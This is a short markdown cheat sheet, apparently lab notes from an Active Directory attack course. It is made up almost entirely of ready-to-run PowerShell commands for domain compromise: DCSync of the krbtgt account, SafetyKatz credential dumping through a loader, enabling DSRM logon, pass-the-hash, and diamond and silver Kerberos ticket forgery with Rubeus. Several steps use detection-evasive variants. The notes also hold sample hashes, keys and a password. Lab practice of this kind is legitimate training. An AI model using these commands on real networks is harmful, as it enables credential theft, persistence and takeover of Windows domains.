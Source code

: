 #### DCSync + obtain krbtgt
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

##### DRSM Admin
```powershell
winrs -r:dcorp-dc cmd 

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args token::elevate lsadump::evasive-sam exit"

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args token::elevate lsadump::lsa /patch exit"
```

PtH
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f

Loader.exe -path SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"

Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```

Now run a DCSync attack on the DC itself because MDI dont care lol

```
a102ad5753f4c441e3af31c97fad86fd
```
##### Diamond Ticket
```powershell
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\ Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:student548 /password:cAyF6wTLSydnL2M7 /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

##### Silver Ticket
**OPSEC IN MIND** create a silver ticket with the ntlm of a computer account
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:b8f18421f92b4ef069829b1dfd0e10e9 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```